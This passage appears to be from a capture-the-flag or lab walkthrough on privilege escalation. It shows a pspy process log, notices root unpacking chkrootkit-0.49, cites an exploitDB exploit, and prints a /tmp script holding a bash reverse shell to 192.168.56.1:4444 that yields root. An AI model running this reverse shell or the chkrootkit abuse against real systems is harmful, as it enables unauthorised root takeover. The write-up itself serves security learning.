




::: page
# Privilege Escalation {#privilege-escalation .title}

\

Now, we checked some **directories** and found a **log.txt file**

296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:\~/SV-502/logs\$
cat log.txt

pspy - version: v1.2.0 - Commit SHA:
9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855

██▓███ ██████ ██▓███ ▓██ ██▓

▓██░ ██▒▒██ ▒ ▓██░ ██▒▒██ ██▒

▓██░ ██▓▒░ ▓██▄ ▓██░ ██▓▒ ▒██ ██░

▒██▄█▓▒ ▒ ▒ ██▒▒██▄█▓▒ ▒ ░ ▐██▓░

▒██▒ ░ ░▒██████▒▒▒██▒ ░ ░ ░ ██▒▓░

▒▓▒░ ░ ░▒ ▒▓▒ ▒ ░▒▓▒░ ░ ░ ██▒▒▒

░▒ ░ ░ ░▒ ░ ░░▒ ░ ▓██ ░▒░

░░ ░ ░ ░ ░░ ▒ ▒ ░░

░ ░ ░

░ ░

Config: Printing events (colored=true): processes=true \|
file-system-events=false \|\|\| Scannning for processes every 100ms and
on inotify events \|\|\| Watching directories: \[/usr /tmp /etc /home
/var /opt\] (recursive) \| \[\] (non-recursive)

Draining file system events due to startup\...

done

2020/06/27 18:56:57 CMD: UID=0 PID=9 \|

2020/06/27 18:56:57 CMD: UID=0 PID=8 \|

2020/06/27 18:56:57 CMD: UID=1000 PID=7659 \| /bin/bash

2020/06/27 18:56:57 CMD: UID=1000 PID=7658 \| python -c import
pty;pty.spawn(\'/bin/bash\')

2020/06/27 18:56:57 CMD: UID=1000 PID=7657 \| /bin/sh -i

2020/06/27 18:56:57 CMD: UID=1000 PID=7653 \| sh -c uname -a; w; id;
/bin/sh -i

2020/06/27 18:56:57 CMD: UID=1000 PID=7652 \| php -S 0.0.0.0:8080

2020/06/27 18:56:57 CMD: UID=1000 PID=7645 \| php -S 0.0.0.0:8080

2020/06/27 18:56:57 CMD: UID=0 PID=6 \|

2020/06/27 18:56:57 CMD: UID=0 PID=59 \|

2020/06/27 18:56:57 CMD: UID=0 PID=50 \|

2020/06/27 18:56:57 CMD: UID=0 PID=49 \|

2020/06/27 18:56:57 CMD: UID=0 PID=481 \| -bash

2020/06/27 18:56:57 CMD: UID=0 PID=48 \|

2020/06/27 18:56:57 CMD: UID=0 PID=471 \| (sd-pam)

2020/06/27 18:56:57 CMD: UID=0 PID=470 \| /lib/systemd/systemd \--user

2020/06/27 18:56:57 CMD: UID=0 PID=467 \| sshd: root@pts/0

2020/06/27 18:56:57 CMD: UID=0 PID=424 \| /usr/sbin/sshd -D

2020/06/27 18:56:57 CMD: UID=0 PID=423 \| /sbin/agetty -o -p \-- \\u
\--noclear tty1 linux

2020/06/27 18:56:57 CMD: UID=0 PID=422 \| /usr/sbin/cups-browsed

2020/06/27 18:56:57 CMD: UID=107 PID=420 \| avahi-daemon: chroot helper

2020/06/27 18:56:57 CMD: UID=0 PID=402 \| /usr/sbin/cupsd -l

2020/06/27 18:56:57 CMD: UID=0 PID=401 \| /sbin/wpa_supplicant -u -s -O
/run/wpa_supplicant

2020/06/27 18:56:57 CMD: UID=104 PID=400 \| /usr/bin/dbus-daemon
\--system \--address=systemd: \--nofork \--nopidfile
\--systemd-activation \--syslog-only

2020/06/27 18:56:57 CMD: UID=0 PID=4 \|

2020/06/27 18:56:57 CMD: UID=0 PID=399 \| /usr/sbin/cron -f

2020/06/27 18:56:57 CMD: UID=0 PID=398 \| /lib/systemd/systemd-logind

2020/06/27 18:56:57 CMD: UID=107 PID=396 \| avahi-daemon: running
\[60832e9f188106ec5bcc4eb7709ce592.local\]

2020/06/27 18:56:57 CMD: UID=0 PID=395 \| /usr/sbin/rsyslogd -n -iNONE

2020/06/27 18:56:57 CMD: UID=0 PID=390 \| /sbin/dhclient -4 -v -i -pf
/run/dhclient.enp0s3.pid -lf /var/lib/dhcp/dhclient.enp0s3.leases -I -df
/var/lib/dhcp/dhclient6.enp0s3.leases enp0s3

2020/06/27 18:56:57 CMD: UID=0 PID=30 \|

2020/06/27 18:56:57 CMD: UID=0 PID=3 \|

2020/06/27 18:56:57 CMD: UID=0 PID=294 \|

2020/06/27 18:56:57 CMD: UID=0 PID=292 \|

2020/06/27 18:56:57 CMD: UID=0 PID=29 \|

2020/06/27 18:56:57 CMD: UID=0 PID=28 \|

2020/06/27 18:56:57 CMD: UID=0 PID=27 \|

2020/06/27 18:56:57 CMD: UID=0 PID=26 \|

2020/06/27 18:56:57 CMD: UID=101 PID=255 \|
/lib/systemd/systemd-timesyncd

2020/06/27 18:56:57 CMD: UID=0 PID=25 \|

2020/06/27 18:56:57 CMD: UID=0 PID=245 \| /lib/systemd/systemd-udevd

2020/06/27 18:56:57 CMD: UID=0 PID=24 \|

2020/06/27 18:56:57 CMD: UID=0 PID=23 \|

2020/06/27 18:56:57 CMD: UID=0 PID=222 \| /lib/systemd/systemd-journald

2020/06/27 18:56:57 CMD: UID=0 PID=22 \|

2020/06/27 18:56:57 CMD: UID=0 PID=21 \|

2020/06/27 18:56:57 CMD: UID=0 PID=20 \|

2020/06/27 18:56:57 CMD: UID=0 PID=2 \|

2020/06/27 18:56:57 CMD: UID=0 PID=190 \|

2020/06/27 18:56:57 CMD: UID=0 PID=19 \|

2020/06/27 18:56:57 CMD: UID=0 PID=189 \|

2020/06/27 18:56:57 CMD: UID=0 PID=187 \|

2020/06/27 18:56:57 CMD: UID=0 PID=18 \|

2020/06/27 18:56:57 CMD: UID=0 PID=17 \|

2020/06/27 18:56:57 CMD: UID=0 PID=16 \|

2020/06/27 18:56:57 CMD: UID=0 PID=153 \|

2020/06/27 18:56:57 CMD: UID=0 PID=15 \|

2020/06/27 18:56:57 CMD: UID=0 PID=14 \|

2020/06/27 18:56:57 CMD: UID=0 PID=12378 \| ./pspy

2020/06/27 18:56:57 CMD: UID=0 PID=12356 \|

2020/06/27 18:56:57 CMD: UID=0 PID=12299 \| -bash

2020/06/27 18:56:57 CMD: UID=0 PID=12293 \| sshd: root@pts/2

2020/06/27 18:56:57 CMD: UID=0 PID=12275 \|

2020/06/27 18:56:57 CMD: UID=0 PID=12248 \|

2020/06/27 18:56:57 CMD: UID=0 PID=12247 \|

2020/06/27 18:56:57 CMD: UID=0 PID=12178 \|

2020/06/27 18:56:57 CMD: UID=0 PID=12121 \|

2020/06/27 18:56:57 CMD: UID=0 PID=12 \|

2020/06/27 18:56:57 CMD: UID=0 PID=112 \|

2020/06/27 18:56:57 CMD: UID=0 PID=110 \|

2020/06/27 18:56:57 CMD: UID=0 PID=11 \|

2020/06/27 18:56:57 CMD: UID=0 PID=108 \|

2020/06/27 18:56:57 CMD: UID=0 PID=107 \|

2020/06/27 18:56:57 CMD: UID=0 PID=105 \|

2020/06/27 18:56:57 CMD: UID=0 PID=104 \|

2020/06/27 18:56:57 CMD: UID=0 PID=102 \|

2020/06/27 18:56:57 CMD: UID=0 PID=10 \|

2020/06/27 18:56:57 CMD: UID=0 PID=1 \| /sbin/init

2020/06/27 18:56:58 CMD: UID=0 PID=12385 \| -bash

2020/06/27 18:56:58 CMD: UID=0 PID=12386 \| tar -xvzf
chkrootkit-0.49.tar.gz

2020/06/27 18:57:04 CMD: UID=0 PID=12389 \| -bash

2020/06/27 18:57:04 CMD: UID=0 PID=12390 \| -bash

2020/06/27 18:57:04 CMD: UID=0 PID=12391 \| -bash

2020/06/27 18:57:05 CMD: UID=0 PID=12392 \| -bash

2020/06/27 18:57:05 CMD: UID=0 PID=12393 \| -bash

2020/06/27 18:57:06 CMD: UID=0 PID=12394 \| -bash

2020/06/27 18:57:06 CMD: UID=0 PID=12395 \| -bash

2020/06/27 18:57:06 CMD: UID=0 PID=12396 \| -bash

2020/06/27 18:57:06 CMD: UID=0 PID=12397 \| -bash

2020/06/27 18:57:06 CMD: UID=0 PID=12398 \| -bash

2020/06/27 18:57:06 CMD: UID=0 PID=12399 \| -bash

2020/06/27 18:57:07 CMD: UID=0 PID=12400 \| -bash

2020/06/27 18:57:07 CMD: UID=0 PID=12401 \| -bash

2020/06/27 18:57:07 CMD: UID=0 PID=12402 \| -bash

2020/06/27 18:57:07 CMD: UID=0 PID=12403 \| -bash

Here saw an **interesting line** :

Searched for '**chkrootkit-0.49.tar.gz**' exploit and found one at
**exploitDB**

Performed this :

Inside the **/tmp** created a file using **nano** :

**#!/bin/bash**

**bash -i \>& /dev/tcp/192.168.56.1/4444 0\>&1**

Saved this and have **execute permissions**.

Simultaneously listened on **port 4444**.

We got this :

**We are root!!!**
:::
